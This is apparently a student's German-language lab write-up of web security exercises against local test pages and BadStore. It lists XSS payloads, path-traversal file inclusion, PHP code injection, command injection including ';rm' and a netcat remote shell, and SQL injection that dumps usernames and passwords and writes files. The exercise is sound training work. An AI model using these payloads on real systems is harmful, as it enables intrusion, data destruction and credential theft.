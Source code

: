 ## 6.1.1.1 - 1.php
### Schreibe deinen Namen in Italic
Einfach `<i>Ertugrul</i>` in die Box eingeben!

### Namen in anderer Schriftart anzeigen
```html
<span style="color: red">Ertugrul</span>
```

### Schreibe deinen Namen in weiß
```html
<span style="color: white">Ertugrul</span>
```

### Ändere die Background Color zu blau
```html
<style>body {background-color: blue;}</style>
```

### Füge ein weiteres Feld ein
```html
Ertugrul<br><input />
```


## 6.1.1.2 - 2.php
## Versuche eine Injection
```html
myname"/><script>alert('hey')</script><span class="
```

## 6.1.1.3 - Zurück zu 1.php
### Versuche eine Weiterleitung mittels Meta Tag
```html
<meta http-equiv="refresh" content="0; URL=http://google.de/">
```

### Versuche einen IFrame einzubinden
```html
<iframe src="2.php" height="200" width="300" title="Iframe Example"></iframe>
```

## 6.1.1.4 - 4.php
### Versuche eine Injection
```html
<xmp></xmp><script>alert("Hello world");</script><xmp>
```

## 6.1.1.5 - 5.php
### Versuche einen Overlong UTF-8 Character (2 Bytes statt 1) zu injezieren
```html
http://192.168.178.93/html/4.php?name=%C0%BCscript%C0%BEalert("hi")%C0%BC/script%C0%BE
```

```ad-note
Achtung: Dies klappt mit neuen Browsern nicht!
```

## 6.1.2.1 - 1.php
### Versuche die .config.php Datei zu laden
**Warning**: include(.config): failed to open stream: No such file or directory in **/var/www/html/php/1.php** on line **23**  
  
**Warning**: include(): Failed opening '.config' for inclusion (include_path='.:/usr/share/php') in **/var/www/html/php/1.php** on line **23**

### Lade eine random php Seite
https://learningapps.org/index.php

### Lade die phpinfo.php Datei
`../phpinfo.php`

### Welche siehst du, die lokale oder den remote?
Remote, php läuft auf dem Server

### Wie könnte man hier Code injezieren? (Tipp: Mime Types)

### Was müsste man auf dem Webserver machen, um PHP Code zu injezieren?

## 6.1.2.2 - 2.php
### Wie könnte man hier Code injezieren?
`<option value="../phpinfo">../phpinfo</option>`
- Umgehen des "Schutzes", in dem Man einfach ein ".php" am Ende weglässt (Anders als bei 1.php wo man `../phpinfo.php` schreiben müsste)

## 6.1.2.3 - 3.php
### Einfach nur "phpinfo()" einzugeben würde nicht funktionieren, warum?
- Bei mir hat folgendes funktioniert:
- `http://192.168.178.93/php/3.php?maths=phpinfo%28%29`

## 6.1.2.4 - 4.php
### Wie könnte man die Anwendung angreifen?
`http://192.168.178.93/php/4.php?op_1=phpinfo&op=(&op_2=)`

## 6.1.3.1 - 1.php
### Lösche testfile1
`;rm testfile1`

### Erstelle ein simples Shell Script
`;touch myscript.sh;echo "#!/bin/bash\necho -n Hello\necho World" > script.sh`

### Gebe dem Script Ausführrechte und führe es aus
```shell
;chmod +x script.sh
;sh script.sh
```

## 6.1.3.2 - 2.cgi
### Versuche eine Datei im System zu laden
`/etc/apache2/apache2.conf`

### Versuch mal Befehle auszuführen
`| ls`

### Führ die connectme.cgi aus mit einer ip und einem Port für eine Remote Shell
Beim Remote: `nc -l -p 1299`
Beim Angreifer: `http://192.168.178.93/bash/connectme.cgi?ip=192.168.178.21&port=1299`

## 6.1.4.1 - 1.php
### Liste von allen Nutzern bekommen
```SQL
" OR 1=1-- 
```

### Alle Usernamen und Passwörter bekommen
```SQL
// Erst mal alle Tabellennamen printen
" UNION SELECT table_schema, table_name FROM information_schema.tables-- 
```

```SQL
// Alle Spalten der user Tabelle rausfinden
" UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_schema='web' AND table_name = 'user'-- 
```

```SQL
// Alle Nutzernamen und Passwörter rausfinden
" UNION SELECT username, password FROM user-- 
```

### Version herausbekommen
```SQL
" UNION SELECT version(), null -- 
```

### Datenbankschema (= web)
```SQL
// Erst mal alle Tabellennamen printen
" UNION SELECT table_schema, table_name FROM information_schema.tables-- 
```

### Datei schreiben
```SQL
" UNION SELECT username, password FROM user INTO OUTFILE "/var/www/html/sql/6.1.4.1.txt"-- 
```

### 6.1.4.2 - 2.php
Weil er Prepared Statements genutzt hat

## 6.1.4.3 - Blind injections
### So viele SQL Injections wie möglich finden
```SQL
http://192.168.178.119/cgi-bin/badstore.cgi?searchquery=xx%27+IN+(itemnum,sdesc,ldesc)+union+select+email,passwd,null,null+from+userdb+LIMIT+2+--+&action=search&x=16&y=7
```